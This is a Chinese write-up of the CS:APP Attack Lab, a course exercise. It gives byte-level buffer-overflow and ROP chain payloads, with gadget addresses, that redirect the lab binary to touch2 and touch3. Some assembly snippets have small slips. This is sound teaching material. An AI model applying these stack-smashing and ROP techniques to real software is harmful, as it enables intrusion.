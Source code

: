 # Attack Lab

x86-64 架构的寄存器：

- 用来传参数的寄存器：%rdi, %rsi, %rdx, %rcx, %r8, %r9
- 保存返回值的寄存器：%rax
- 被调用者保存状态：%rbx, %r12, %r13, %r14, %rbp, %rsp
- 调用者保存状态：%rdi, %rsi, %rdx, %rcx, %r8, %r9, %rax, %r10, %r11
- 栈指针：%rsp
- 指令指针：%rip

找溢出点

![Untitled](Attack%20Lab%2075e95a90b58f4b7aa6fb1412c10c62f6/Untitled.png)

看他的参数存在哪个寄存器

![Untitled](Attack%20Lab%2075e95a90b58f4b7aa6fb1412c10c62f6/Untitled%201.png)

buf到返回地址有40个字节的距离，直接构造栈打就行

touch2和touch3需要构造传入参数rdi使得cmp通过

```python
movq    $0x59b997fa, %rdi  
pushq   0x4017ec           /** 跳转到touch2 **/
ret
```

![Untitled](Attack%20Lab%2075e95a90b58f4b7aa6fb1412c10c62f6/Untitled%202.png)

构造rop

```python
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00 // pop rdi 
fa 97 b9 59 00 00 00 00 // cookie
ec 17 40 00 00 00 00 00 //ret
```

最后一关，cookie是字符串，不能直接传参给rdi，需要通过写入固定位置方式间接传参

第一种（[参考](https://www.jianshu.com/p/db731ca57342)

![Untitled](Attack%20Lab%2075e95a90b58f4b7aa6fb1412c10c62f6/Untitled%203.png)

```python
0x401a06:
    mov %rsp, %rax // 控制栈顶进入rax，因为地址随机化，通过这种方式拿到栈地址
    retq
0x4019a2: 
    mov %rax, %rdi // 把rax装入rdi
    retq
0x4019cc:
	pop %rax // pop到rax
	retq  
0x4019dd:
    mov %eax, %edx // 移动eax到edx
    retq 
0x401a70:
    mov %edx, %ecx // 移动edx到ecx
    retq  
0x401a13:
    mov %ecx, %esi // 移动ecx到esi
    retq
0x4019d6: 
    lea (%rdi,%rsi,1),%rax // rdi和rsi相加进入rax
    retq
0x4019a2: 
    mov %rax, %rdi // 把rax装入rdi
    retq

00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 // mov %rsp, %rax 返回地址
a2 19 40 00 00 00 00 00 // mov %rax, %rdi 
cc 19 40 00 00 00 00 00 // pop %rax
48 00 00 00 00 00 00 00 // 偏移,返回地址和字符串首地址之间有9条指令，0x48，就是cookie的地址
dd 19 40 00 00 00 00 00 // mov %eax, %edx
70 1a 40 00 00 00 00 00 // mov %edx, %ecx 
13 1a 40 00 00 00 00 00 // mov %ecx, %esi
d6 19 40 00 00 00 00 00 // lea (%rdi,%rsi,1),%rax，上面的主要就是为了这条那到cookie
a2 19 40 00 00 00 00 00 // mov %rax, %rdi , 传入touch3的参数
fa 18 40 00 00 00 00 00 // addr of touch3
35 39 62 39 39 37 66 61 // cookie
```

第二种

```python
401a06: 48 89 e0              movq %rsp, %rax
401a09: c3                    retq

4019d8: 04 37                 add 0x37, %al //拉开与栈的距离，保证字符串被被解析成指令执行
4019da: c3                    retq

4019a2: 48 89 c7              movq %rax, %rdi
4019a5: c3                    retq

31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
06 1a 40 00 00 00 00 00 // movq %rsp, %rax
d8 19 40 00 00 00 00 00 // add $0x37, %al
a2 19 40 00 00 00 00 00 // movq %rax, %rdi
fa 18 40 00 00 00 00 00 // touch3
31 31 31 31 31 31 31 31 // padding 23byte to fit 0x37byte
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31
35 39 62 39 39 37 66 61 //cookie
```

还是pwntool好用捏